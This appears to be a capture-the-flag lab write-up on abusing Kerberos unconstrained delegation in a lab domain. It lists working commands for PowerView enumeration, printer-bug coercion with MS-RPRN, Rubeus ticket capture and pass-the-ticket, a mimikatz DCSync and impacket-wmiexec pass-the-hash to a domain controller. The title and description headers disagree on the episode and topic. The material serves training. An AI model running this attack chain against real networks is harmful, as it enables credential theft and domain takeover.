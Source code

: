 ```yaml
---
date: 2025-03-17
categories: [CTF, IML]
title: "IML - Kerberos: Ep.9 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows']

description: "Kerberos Ep. 9 – Unconstraine - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep. 9 – Unconstrained Delegation


![image1](../resources/7f2555936ca4415aba773fa7bcc11a88.png)

![image2](../resources/5336fb7734cf44009120496934609a5d.png)

Use following command in powershell.exe to dot source the script first:

```bash
. .\Powerview_dev.ps1

```
**<u>Dot sourcing</u>**

The dot sourcing feature lets you run a script in the current scope instead of in the script scope. When you run a script that is dot sourced, the commands in the script run as though you had typed them at the command prompt

- On workstation-01 run Powerview:
```bash
. .\Powerview_dev.ps1

```

![image3](../resources/8ebb39d0918648d3b86f734d76c7d861.png)

- Enumerating for unconstrained delegation:
```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image4](../resources/e7519f27495043109e63411a9c3ad29b.png)


![image5](../resources/bfb5d5b0d2a440a481f774ec27bfa45f.png)

<u>Exploiting unconstrained delegation:</u>
Now that you have access to a host with an unconstrained delegation set, you can force a privileged user to connect to the system. To do this, you'll need to use the MS-RPRN tool (aka spoolsample). This tool will force a DC account to connect to our hostname; in this case, Workstation-02

- Open an elevated command prompt and monitor for TGT **(Open in CMD not PS)**:
```bash
Rubeus.exe monitor /interval:1

```

![image6](../resources/bfc9a81bb20d4de08eeaa2e918811b97.png)

- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe

.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image7](../resources/680b6e010f0c4884b4948f09b0450e55.png)


![image8](../resources/ec4ff9197f54477684e68afcef95ed57.png)


![image9](../resources/53eb6570d2ea485591806990b9bd70e5.png)

- Since the host has an unconstrained delegation feature enabled, you can obtain a valid TGT to impersonate a DC account

- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"[\n\t\s]*", "", f))'

```
- Copy the output and paste into the command (on Windows):

(Convert from Base64 and saves it in **DC.kirbi**)

```powershell
[IO.File]::WriteAllBytes("C:\Users\m.oh\Desktop\Tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```

![image10](../resources/e1433203f58b43c893bef66332ce4b21.png)

- Load the ticket into memory:
```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```

![image11](../resources/6c20fb63571042a6a69ed2f1ec95cecb.png)

- Check that it has been loaded in successfully:
```bash
klist

```

![image12](../resources/aa9591288001480688632c98b75ddc84.png)


![image13](../resources/aba65a0a932c4f859628f57061753344.png)


![image14](../resources/71f94ac080a24844b1622f1374fe491c.png)

- Open mimikatz:
```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image15](../resources/68b77d027e6d4eb9bd58e5dd8f0a56e1.png)

- Use wmiexec to gain access to the DC:
```bash
impacket-wmiexec [DOMAIN]/[USERNAME]@[TARGET] -hashes [LM-HASH]:[NT-HASH] 

impacket-wmiexec krbtown/a.belridge@10.102.110.227 -hashes 5bc77749d18b5076452c01b71eda19d0:a3352be00f83a3a7f86a8825e49d5011

```

![image16](../resources/654fc3178ff04959a0716fbc18c27eff.png)


![image17](../resources/1e43f17df0a24df894fe4b7ac6ddfd50.png)


![image18](../resources/e2146712bf5d408abb70a7acc7c1da8f.png)
